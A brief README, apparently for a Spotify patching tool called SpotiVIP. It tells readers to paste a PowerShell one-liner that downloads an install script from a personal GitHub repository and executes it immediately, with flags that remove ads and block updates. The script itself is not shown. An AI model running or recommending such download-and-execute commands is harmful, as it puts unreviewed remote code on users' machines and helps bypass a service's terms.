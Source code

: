 # SpotiVIP
SpotiVIP By Freakidann


OPEN POWERSHELL :

[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12; iex "& { $((iwr -useb 'https://raw.githubusercontent.com/alan444719/SpotiVIP/main/Install.ps1').Content) } -confirm_uninstall_ms_spoti -confirm_spoti_recomended_over -podcasts_off -block_update_on -start_spoti -new_theme -adsections_off -lyrics_stat spotify"
